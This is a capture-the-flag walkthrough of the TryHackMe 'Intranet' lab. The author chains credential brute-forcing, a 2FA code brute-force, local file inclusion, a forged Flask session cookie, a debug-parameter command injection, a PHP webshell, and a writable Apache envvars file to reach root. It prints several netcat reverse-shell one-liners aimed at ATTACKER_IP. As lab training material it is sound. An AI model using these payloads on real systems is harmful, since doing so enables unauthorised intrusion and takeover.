

# Intranet

**Difficulty:** 🟡 Medium · **Room:** [TryHackMe ↗](https://tryhackme.com/room/support)

The web application development company SecureSolaCoders has created their own intranet page. The developers are still very young and inexperienced, but they assured their boss (Magnus) that the web application was secured appropriately. The developers said, "Don't worry, Magnus. We have learnt from our previous mistakes. It won't happen again." However, Magnus was not convinced, as they had introduced many strange vulnerabilities into their customers' applications before.

Magnus hired you as a third party to conduct a penetration test of their web application. Can you successfully exploit the app and achieve root access?

---

## Reconnaissance

I started with a simple `nmap` scan to see the whole attack surface:



There's `http` on both port `80` and `8080`. `FTP` runs on port `21`, `SSH` on `22`, `Telnet` on `23`, and `echo` on port `7`. The `echo` service stood out, since it's not commonly used nowadays. I followed up with a more detailed `nmap` scan to gather more information:


I also ran `feroxbuster` to check for existing directories:


This showed that the `MACHINE_IP:8080/login` endpoint exists, so I visited it, and a login page appeared:


---

## Enumeration

### Finding valid email addresses

The placeholder in the `email` field disclosed its expected format:

```text
firstname@securesolacoders.no
```

I thought about brute-forcing logins to access an employee account, but first I needed to gather employee names. The first name I had was `Magnus`, the company's boss. I found a second one, `anders`, along with a `devops@securesolacoders.no` email address, by inspecting the login page's source code:

```text
<!--- Any bugs? Please report them to our developer team. We have an open bug bounty program! For any inquiries, contact devops@securesolacoders.no. Sincerely, anders (Senior Developer) -->
```

Directory enumeration with `feroxbuster` didn't turn up anything else interesting. The login page had another weakness: it revealed whether a given email existed by replying to an invalid login with either `Invalid password` or `Invalid username`. Knowing that, I first generated a list of possible emails, using a large list of names from `names.txt` in SecLists. This Python script generates the list of possible emails:

```python
emails = open('emails.txt', 'w')
with open('names.txt', 'r') as file:
        for name in file:
                name = name.strip()
                emails.write(f"{name}@securesolacoders.no\n")
emails.close()
```

With `emails.txt` ready, I used Burp Suite to confirm the login request used `username` and `password` parameters, then ran `hydra` to test which emails were valid:

```bash
hydra -L emails.txt -p 123 -u -e sr -s 8080 -m '/login:username=^USER^&password=^PASS^:Invalid username' MACIHNE_IP http-post-form
```

Hydra found one additional valid email. In total, these were the valid emails I found:

```text
anders@securesolacoders.no
devops@securesolacoders.no
admin@securesolacoders.no
```

### Brute-forcing anders' password

Next, I ran another `hydra` command, this time to find valid passwords:

```bash
hydra -L users.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt  -u -e sr -s 8080 -m '/login:username=^USER^&password=^PASS^:Invalid password' MACHINE_IP http-post-form
```

This only produced a few false positives, since the site's password policy rejected certain characters (`'`, `&`, `"`, `;`, `#`). Since brute-forcing with a common password list didn't work, I decided to generate a custom wordlist instead. I used `cupp` to generate candidate passwords built around the company name, for `admin`, `devops`, and `anders`, then expanded that base list with `john`:

```text
base_words.txt:
admin
anders
devops
SecureSolaCoders
```

```bash
john --wordlist=base_words.txt --rules=All --stdout > passwords.txt
```

Running `hydra` again with this custom wordlist succeeded — I recovered `anders`' password and the first flag:


---

## Initial Access: Logging in as anders

Fully authenticating required a 4-digit code, since 2FA was enabled on the portal. The code appeared to be static — there was no indication it expired — so, like the passwords and emails, I decided to brute-force it too, this time using `ffuf`, since it lets me send custom headers.

First, I generated a list of every possible 4-digit code with this Python script:

```python
codes = open("codes.txt", "w")
code = ['0','0','0','0']
for first in range(10):
        for second in range(10):
                for third in range(10):
                        for fourth in range(10):
                                code[0]=str(first)
                                code[1]=str(second)
                                code[2]=str(third)
                                code[3]=str(fourth)
                                codes.write("".join(code)+'\n')
codes.close()
```

Then I ran `ffuf` with `-H` for HTTP headers, `-b` for the session cookie, and `-fs` to filter out the response size for wrong codes (since every request returned a `200` status). After a few seconds, it found a valid code:

```bash
ffuf -w codes.txt \
  -u http://10.82.179.220:8080/sms \
  -X POST \
  -b 'session=eyJ1c2VybmFtZSI6ImFuZGVycyJ9.aqEUrA.8DD79-appHPIm8l9iOeBJStdoMQ' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Referer: http://10.82.179.220:8080/sms' \
  -d "sms=FUZZ" \
  -fs=1326
```


With the code, I could fully authenticate as `anders` and grab the second flag:


---

## Privilege Escalation: Local File Inclusion and Source Code Disclosure

While browsing through the portal, I found four other email addresses:

```text
external@securesolacoders.no
internal@securesolacoders.no
hiring@securesolacoders.no
support@securesolacoders.no
```

I considered brute-forcing passwords for those accounts too, but the login page returned `Invalid username` for all of them, so they weren't valid logins. I decided to inspect the `session` cookie instead, and found it was a Flask session cookie:


Brute-forcing the cookie's signing key directly didn't work. While browsing the portal further, I found an `Update` button on the internal news feed. Capturing the request with Burp Suite showed it sent a `news` parameter — and that parameter was vulnerable to Local File Inclusion:


Result:


By setting `news` to `../../proc/self/cmdline` — which contains information about the current process — I was able to retrieve the full path of the running application:

```text
/usr/bin/python3/home/devops/app.py
```

I used the LFI to read the application's source code, which gave me the third flag:


The source code showed that only `anders` could log in normally. But since the app used Flask session cookies, I looked for how the signing key was generated, and found this:

```python
key = "secret_key_" + str(random.randrange(100000,999999))
```

The key is just `secret_key_` followed by a random 6-digit number — a small enough search space to crack.

---

## Privilege Escalation: Forging the Admin Session Cookie

Knowing the key format, I generated a list of every possible key:

```python
with open('keys.txt', 'w') as keys:
        for i in range(100000, 1000000):
                keys.write(f"secret_key_{i}\n")
```

I used `hashcat` to find the correct key:


With the real signing key, I could generate my own valid session cookie and swap it in for my current one. This let me log in as admin, which gave me the fourth flag:


---

## Initial Access: Remote Code Execution via the debug Parameter

The admin page had a `</form>` closing tag at the end of it, with no matching opening `<form>` tag anywhere on the page:


That looked suspicious, so I checked the application's source code again, and found that forwarding a `POST` request to `/admin` with a `debug` parameter would likely run system commands:


I sent a `POST` request with `curl` to confirm it:

```bash
curl 'http://MACHINE_IP:8080/admin' -X POST -H 'Cookie: session=SESSION_COOKIE' --data-raw 'debug=REVERSE_SHELL'
```

Reverse shell used (URL-encoded to work correctly):

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

With a listener running:

```bash
nc -lvnp 4444
```

This gave me a reverse shell as `devops`, along with another flag:


---

## Privilege Escalation: anders

Next, I tried to escalate to `anders`. A quick `ps aux` listed all running processes, and some of them belonged to `anders`:


I checked how those processes were started:

```bash
cat /proc/952/cmdline
/usr/sbin/apache2-kstart
```

So `anders` was running the Apache server — usually that's done by `www-data`, which made this worth investigating further as a path to `anders`. The earlier `nmap` scan had shown an `http` server on port 80, though the site itself didn't contain anything interesting:


I found that page's HTML file at `/var/www/html/index.html`, and as `devops` I had write access to that directory. That meant I could upload a malicious `.php` script to get code execution as `anders`. I created the script:

```bash
echo '<?php system($_GET["cmd"]) ?>' > cmd.php
```

Then, by visiting `http://MACHINE_IP:80/cmd.php?cmd=`, I could execute commands as `anders`. Running a reverse shell through the `cmd` parameter gave me a connection as `anders` and the next flag:


Reverse shell used:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP 9001 >/tmp/f
```

---

## Privilege Escalation: root

Running `sudo -l` as `anders` showed I could run `/sbin/service apache2 restart` as root — in other words, I could restart the web server with root privileges. I looked for Apache config files I could write to, and quickly found one:

```bash
find / -type f -writable 2>/dev/null | grep apache
/etc/apache2/envvars
```

I had write access to the file containing Apache's environment variables. This file is written in bash and gets sourced whenever Apache starts or restarts — so overwriting it with a reverse shell and then restarting the server should give me a connection as root.

I overwrote `/etc/apache2/envvars` with a reverse shell payload:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ATTACKER_IP 9000 >/tmp/f
```

Then restarted the server using the allowed `sudo` command:

```bash
sudo /sbin/service apache2 restart
```

This gave me a shell as root:


---

## Kill Chain

This box was a long chain of small enumeration wins rather than one single big exploit. Weak validation on the login page let me enumerate valid employee emails, and a weak, guessable password policy let me build a custom wordlist and crack `anders`' password. A static, brute-forceable 2FA code got me fully authenticated. From there, an LFI vulnerability exposed the application's source code, which revealed a predictable session-signing key — cracking that key let me forge an admin session and take over the admin account outright. A debug parameter on the admin panel then gave direct code execution, and from there, weak file permissions on the web server chained all the way to root.

`Web login brute-force → anders (2FA bypass) → LFI/source disclosure → forged admin session → RCE as devops → anders (webshell) → root (writable Apache config)`

- **Initial Access:** Email/password enumeration and a custom wordlist → `anders`' credentials
- **Authentication Bypass:** Static, brute-forceable 2FA code → full login as `anders`
- **Information Disclosure:** LFI via the `news` parameter → application source code → predictable Flask session key
- **Privilege Escalation:** Cracked session-signing key → forged admin session cookie → admin access
- **Remote Code Execution:** Debug parameter on the admin panel → shell as `devops`
- **Privilege Escalation:** Writable web root → PHP webshell → shell as `anders`
- **Final Escalation:** Writable Apache environment file + `sudo` restart rights → root shell

> Thanks for reading!
